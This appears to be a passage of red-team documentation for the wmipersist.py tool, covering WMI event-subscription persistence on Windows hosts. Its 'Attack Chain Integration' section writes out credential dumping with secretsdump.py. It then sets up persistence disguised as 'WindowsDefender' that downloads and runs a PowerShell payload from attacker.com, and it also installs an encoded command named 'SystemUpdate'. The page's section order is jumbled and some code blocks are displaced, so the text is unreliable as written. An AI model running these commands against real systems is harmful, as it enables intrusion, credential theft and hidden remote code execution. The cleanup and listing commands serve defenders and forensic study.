 ### Cleanup
```bash
# Remove specific persistence mechanism
python3 wmipersist.py domain.com/admin:password@192.168.1.100 remove -name EventName

# Manual cleanup if tool unavailable
wmic /namespace:"\\root\subscription" PATH ActiveScriptEventConsumer WHERE Name="EventName" DELETE
wmic /namespace:"\\root\subscription" PATH __EventFilter WHERE Name="EF_EventName" DELETE
wmic /namespace:"\\root\subscription" PATH __IntervalTimerInstruction WHERE TimerId="TI_EventName" DELETE
```

## Related Tools
- **wmiexec.py**: WMI-based remote command execution
- **wmiquery.py**: WMI query execution and enumeration
- **dcomexec.py**: DCOM-based remote execution
- **atexec.py**: Task scheduler persistence
- **services.py**: Service-based persistence

## Technical References
- [WMI Event Consumers](https://docs.microsoft.com/en-us/windows/win32/wmisdk/monitoring-events)
- [WQL Event Queries](https://docs.microsoft.com/en-us/windows/win32/wmisdk/wql-sql-for-wmi)
- [ActiveScriptEventConsumer Class](https://docs.microsoft.com/en-us/windows/win32/wmisdk/activescripteventconsumer)
- [WMI Persistence Techniques](https://attack.mitre.org/techniques/T1546/003/)

# Using hash authentication
python3 wmipersist.py -hashes :ntlmhash domain.com/user@target.domain.com
```

### Advanced Usage
```bash
# Install persistence with specific trigger interval
python3 wmipersist.py -action install -name "SystemUpdate" -command "powershell.exe -enc <base64>" -trigger-interval 3600 domain/user:pass@target

# Remove specific persistence mechanism
python3 wmipersist.py -action remove -name "SystemUpdate" domain/user:pass@target

# List all WMI event subscriptions for forensic analysis
python3 wmipersist.py -action list domain/user:pass@target
```

## Attack Chain Integration

### Post-exploitation Persistence Setup
```bash
# Step 1: Initial compromise and credential extraction
python3 secretsdump.py domain/user:pass@target

# Step 2: Establish WMI persistence with extracted credentials
python3 wmipersist.py -action install -name "WindowsDefender" -command "cmd /c powershell.exe IEX(New-Object Net.WebClient).downloadString('http://attacker.com/payload')" domain/user@target

# Step 3: Verify persistence installation
python3 wmipersist.py -action list domain/user@target
```
